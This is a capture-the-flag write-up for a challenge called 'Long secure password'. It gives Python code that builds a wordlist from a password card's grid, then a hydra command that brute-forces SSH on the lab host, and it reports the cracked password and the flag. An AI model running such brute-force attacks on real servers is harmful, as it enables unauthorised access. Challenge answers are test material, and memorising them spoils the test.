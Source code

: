 # Long secure password
## Description

![](img/20241101233026.png)

## Solution

In this challenge, a password card, shown below, is provided which, combined with a specified set of rules, is supposed to be used to come up with memorable passwords. This card was also used to choose a password for SSH on the server at `password-card-rules.cypherfix.tcc`.

![](img/password_card.png)

This card along with the rules only has a quite limited number of passwords it can generate. This fact allows to generate all the possible passwords and then use the generated wordlist to brute force the SSH access password.

One of the hints states that the password is 18 characters long. Using this information the Python code below can generate a wordlist containing all the possible passwords.

```python
card = """
SQUIRELL*JUDGE*NEWS*LESSON
WORRY*UPDATE*SEAFOOD*CROSS
CHAPTER*SPEEDBUMP*CHECKERS
PHONE*HOPE*NOTEBOOK*ORANGE
CARTOONS*CLEAN*TODAY*ENTER
ZEBRA*PATH*VALUABLE*MARINE
VOLUME*REDUCE*LETTUCE*GOAL
BUFFALOS*THE*CATCH*SUPREME
LONG*OCTOPUS*SEASON*SCHEME
CARAVAN*TOBACCO*WORM*XENON
PUPPYLIKE*WHATEVER*POPULAR
SALAD*UNKNOWN*SQUATS*AUDIT
HOUR*NEWBORN*TURN*WORKSHOP
USEFUL*OFFSHORE*TOAST*BOOK
COMPANY*FREQUENCY*NINETEEN
AMOUNT*CREATE*HOUSE*FOREST
BATTERY*GOLDEN*ROOT*WHEELS
SHEEP*HOLIDAY*APPLE*LAWYER
SUMMER*HORSE*WATER*SULPHUR
"""

def generate_strings(matrix, max_len=20):
    rows, cols = len(matrix), len(matrix[0])
    directions = [(0, 1), (1, 0), (0, -1), (-1, 0), (1, 1), (1, -1), (-1, 1), (-1, -1)]
    results = []

    def get_string(r, c, dr, dc, l):
        result = ""
        for i in range(l):
            if 0 <= r < rows and 0 <= c < cols:
                result += matrix[r][c]
                r, c = r + dr, c + dc
            else:
                break
        return result

    for dr, dc in directions:
        for r in range(rows):
            for c in range(cols):
                #for l in range(1, max_len+1):
                s = get_string(r, c, dr, dc, 18)
                if s not in results and len(s) == 18:
                    results.append(s)

    return results

res = generate_strings(card)

with open('wl.txt', 'w') as f:
    f.writelines('\n'.join(res))

```

Once the wordlist is generated, it is only a matter of launching a brute force attack on the victim SSH server, using hydra, like shown below.

```
$ hydra -l futurethinker -P wl.txt ssh://password-card-rules.cypherfix.tcc/ -t 4
```

This attack takes only about a minute and finds a valid password, which is `SAOPUNUKTPHCANEMFW`.

![](img/20241104170542.png)

After logging in with the found credentials, the server reveals the flag.

![](img/20241104171836.png)

## Flag

`FLAG{uNZm-GGVK-JbxV-1DIx}`